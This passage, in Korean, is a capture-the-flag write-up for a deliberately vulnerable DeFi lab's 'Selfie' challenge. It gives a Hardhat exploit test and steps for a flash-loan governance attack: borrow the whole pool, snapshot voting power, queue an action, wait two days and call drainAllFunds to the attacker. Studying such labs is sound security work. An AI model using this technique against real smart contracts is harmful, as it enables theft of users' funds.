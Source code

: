 TOKENS_IN_POOL이 대출 풀에 있는 토큰 양이므로 이를 이용하자. 

```tsx
it('Exploit', async function () {
        const SelfieAttackFactory = await ethers.getContractFactory("attackSelfie",attacker);
        this.attack = await SelfieAttackFactory.deploy(this.governance.address,this.pool.address);
        await this.attack.connect(attacker).loan(TOKENS_IN_POOL);
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
        await this.attack.connect(attacker).attack();
    });
```

SelfieAttack을 deploy해준 후 다음과 같이 진행한다.

1. 대출 풀에서 최대한 대출을 받는다. 그러면 attackSelfie의 receiveToken이 실행되며 스냅샷 후 queueAction을 실행시키게 된다.
2. 2일이 지난 후에야 Action을 실행시킬 수 있으므로 2일을 진행시킨다.
3. attackSelfie 컨트랙트의 attack을 통해  executeAction을 실행시켜 drainAllfunds(attacker.address)를 실행시켜 전부 attacker에게 자산을 보내게 된다.

![성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/93c3afd6-07e1-40ea-8fdb-0bb2f2a6263d/%EC%84%B1%EA%B3%B5.png)

그리고 npm run selfie를 통해 테스트를 실행해보면 Exploit이 정상적으로 잘 진행된 것을 확인할 수 있다.
